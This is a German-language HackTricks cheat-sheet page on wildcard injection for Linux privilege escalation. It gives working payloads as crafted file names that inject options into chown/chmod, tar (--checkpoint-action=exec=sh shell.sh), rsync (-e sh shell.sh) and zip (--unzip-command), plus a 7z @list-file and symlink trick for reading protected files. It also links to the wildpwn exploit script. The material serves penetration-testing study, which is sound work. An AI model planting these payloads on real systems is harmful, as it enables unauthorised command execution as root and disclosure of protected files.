 {% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}


## chown, chmod

Sie können **angeben, welchen Dateibesitzer und welche Berechtigungen Sie für den Rest der Dateien kopieren möchten**
```bash
touch "--reference=/my/own/path/filename"
```
You can exploit this using [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(kombinierter Angriff)_\
More info in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Tar

**Führen Sie beliebige Befehle aus:**
```bash
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Du kannst dies mit [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(tar-Angriff)_ ausnutzen.\
Mehr Informationen unter [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## Rsync

**Führe beliebige Befehle aus:**
```bash
Interesting rsync option from manual:

-e, --rsh=COMMAND           specify the remote shell to use
--rsync-path=PROGRAM    specify the rsync to run on remote machine
```

```bash
touch "-e sh shell.sh"
```
You can exploit this using [https://github.com/localh0t/wildpwn/blob/master/wildpwn.py](https://github.com/localh0t/wildpwn/blob/master/wildpwn.py) _(_rsync _attack)_\
Mehr Infos in [https://www.exploit-db.com/papers/33930](https://www.exploit-db.com/papers/33930)

## 7z

In **7z** kann selbst die Verwendung von `--` vor `*` (beachten Sie, dass `--` bedeutet, dass die folgenden Eingaben nicht als Parameter behandelt werden können, sondern in diesem Fall nur als Dateipfade) einen beliebigen Fehler verursachen, um eine Datei zu lesen. Wenn also ein Befehl wie der folgende von root ausgeführt wird:
```bash
7za a /backup/$filename.zip -t7z -snl -p$pass -- *
```
Und Sie können Dateien in dem Ordner erstellen, in dem dies ausgeführt wird. Sie könnten die Datei `@root.txt` und die Datei `root.txt` erstellen, die ein **symlink** zu der Datei ist, die Sie lesen möchten:
```bash
cd /path/to/7z/acting/folder
touch @root.txt
ln -s /file/you/want/to/read root.txt
```
Dann wird **7z**, wenn es ausgeführt wird, `root.txt` als eine Datei behandeln, die die Liste der Dateien enthält, die es komprimieren soll (das zeigt die Existenz von `@root.txt` an), und wenn 7z `root.txt` liest, wird es `/file/you/want/to/read` lesen und **da der Inhalt dieser Datei keine Liste von Dateien ist, wird es einen Fehler ausgeben**, der den Inhalt zeigt.

_Mehr Informationen in den Write-ups der Box CTF von HackTheBox._

## Zip

**Führe beliebige Befehle aus:**
```bash
zip name.zip files -T --unzip-command "sh -c whoami"
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
